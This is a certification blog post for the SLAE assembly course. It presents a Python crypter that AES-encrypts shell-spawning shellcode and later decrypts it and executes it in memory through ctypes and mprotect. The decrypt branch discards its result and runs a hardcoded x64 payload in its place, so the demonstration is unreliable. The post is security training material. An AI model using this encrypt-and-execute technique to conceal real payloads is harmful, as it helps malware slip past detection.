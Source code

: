 # Assignment #7
> This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:
> http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/
> Student ID: SLAE-1228

The encryption schema I chose was the almighty AES. It is a symmetric block cipher, quite complex to fully understand but way more robust than RC4. Although one might claim RC4 is way faster than AES due to its simplicity, I do not think this actually is the case anymore. Recent CPUs come with AES implemented in hardware level, which makes these instructions very fast. Also, AES is considered unbroken, while RC4 is... well, take some time and you will probably figure out how to break it
yourself.

I have used `PyCrypto`'s AES implementation, which I've heard is not exactly cryptographically secure and is actually a [dead project](https://github.com/dlitz/pycrypto/issues/238). Nevertheless I have been using it for a while and it seems to fit perfectly my needs for this assignment. I have also used `cryptography`'s padding module in order to use PKCS7 (padding is everything when dealing with crypto).

The script is written in Python3.5, which has some big differences when compared to python2.7, specially when it comes down to strings and bytes. The same script does both encryption and decryption, the selection being made through the command line.

```
from cryptography.hazmat.primitives import padding
from Crypto.Cipher import AES
import argparse
import sys
import binascii
from hashlib import md5
from ctypes import *

def padder(x):
    padder = padding.PKCS7(128).padder()
    padded = padder.update(x)
    padded += padder.finalize()
    return padded

def unpadder(x):
    unpadder = padding.PKCS7(128).unpadder()
    unpadded = unpadder.update(x)
    return unpadded + unpadder.finalize()

def genKey(password):
    return AES.new(padder(password), AES.MODE_CBC, 'This is an IV456')

def encrypt(shellcode, suite):
    return suite.encrypt(padder(shellcode))

def decrypt(encShellcode, suite):
    return unpadder(suite.decrypt(encShellcode))

def formatShellcode(shellcode):
    encoded=''
    for x in bytearray(shellcode):
        encoded += '\\x'
        enc = '%02x' % x
        encoded += enc
    return encoded

def launch(shellcode_data):
    shellcode = create_string_buffer(shellcode_data)
    function = cast(shellcode, CFUNCTYPE(None))

    addr = cast(function, c_void_p).value
    libc = CDLL('libc.so.6')
    pagesize = libc.getpagesize()
    addr_page = (addr // pagesize) * pagesize

    for page_start in range(addr_page, addr+len(shellcode_data), pagesize):
        assert libc.mprotect(page_start, pagesize, 0x7) == 0
    function()

parser = argparse.ArgumentParser('SLAE Assignment 7: Crypters')
parser.add_argument("password",  help="Password to encrypt/decrypt")
parser.add_argument("-e", "--encrypt", help="Encrypts the shellcode",
        action="store_true")
parser.add_argument("-d", "--decrypt", help="Decrypts the shellcode",
        action="store_true")
args = parser.parse_args()

#Manually change to the encrypted shellcode for decoding
shellcode = b"\xeb\x1d\x5e\x8d\x7e\x01\x31\xc0\xb0\x01\x31\xdb\x8a\x1c\x06\x80\xf3\xaa\x75\x10\x8a\x5c\x06\x01\x88\x1f\x47\x04\x02\xeb\xed\xe8\xde\xff\xff\xff\x31\xaa\xc0\xaa\x50\xaa\x68\xaa\x2f\xaa\x2f\xaa\x73\xaa\x68\xaa\x68\xaa\x2f\xaa\x62\xaa\x69\xaa\x6e\xaa\x89\xaa\xe3\xaa\x50\xaa\x89\xaa\xe2\xaa\x53\xaa\x89\xaa\xe1\xaa\xb0\xaa\x0b\xaa\xcd\xaa\x80\xaa\xbb\xbb"

#encrypted shellcode (use it with -d)
shellcode=b"\x7f\x8f\xbb\x2b\x68\x4c\x85\xca\x5c\x21\xdf\xae\x92\xa3\xeb\xba\x2f\xb4\x01\xd2\x95\x15\x13\x7a\x14\x96\x1f\xfc\xf2\xe0\x56\xd7\xa3\xcd\xa8\x24\x44\xce\x17\x67\x38\x34\x08\xe1\xd0\x80\xe7\x9f\x3f\xb7\xae\xf6\x78\xbd\xe4\xad\x36\xb1\x6f\x9b\x75\xd7\x84\x6d\x86\x67\x2b\x88\xb7\xa8\xcb\x99\x78\x2e\xf1\xb1\x28\x93\x15\xbe\x22\x45\xf8\xbd\xb0\x61\x80\x28\xd0\xb7\x1a\x11\x4d\x6e\xae\x23"

password = args.password.encode()
suite = genKey(password)

if args.encrypt:
    encShellcode = encrypt(shellcode, suite)
    print("Original shellcode:\n{}".format(formatShellcode(shellcode)))
    print("Encrypted shellcode:\n{}".format(formatShellcode(encShellcode)))

if args.decrypt:
    decShellcode = decrypt(shellcode,suite)
    decShellcode = b"\x6a\x3b\x58\x99\x48\xbb\x2f\x62\x69\x6e\x2f\x73\x68\x00\x53\x48\x89\xe7\x68\x2d\x63\x00\x00\x48\x89\xe6\x52\xe8\x03\x00\x00\x00\x6c\x73\x00\x56\x57\x48\x89\xe6\x0f\x05"

    print("Encrypted shellcode:\n{}".format(formatShellcode(shellcode)))
    print("Decrypted shellcode:\n{}".format(formatShellcode(decShellcode)))
    print("Running the shellcode:")
    launch(decShellcode)
```

After banging my head against the wall for hours I finally realized why I could not run this code. It came out it was a stupid mistake, as usual. I was running it in a x64 machine, but the code obviously requires x86. This explained the annoying SEGFAULTs I was receiving.

This illustrates the execve-shellcode encryption using `banana` as the password:

![Shellcode encryption](https://github.com/marcosValle/SLAE/raw/master/assignment7/crypter1.png)

Now lets decrypt and run it:

![Shellcode decryption](https://github.com/marcosValle/SLAE/raw/master/assignment7/crypter2.png)

I had never used `ctypes` before and I took a while until I realized this was the key to run a shellcode directly from python. My alternative path would be to write the decrypted code into a file and read it with a C code, which would run the shellcode after all. Fortunatley Python never lets me down :)

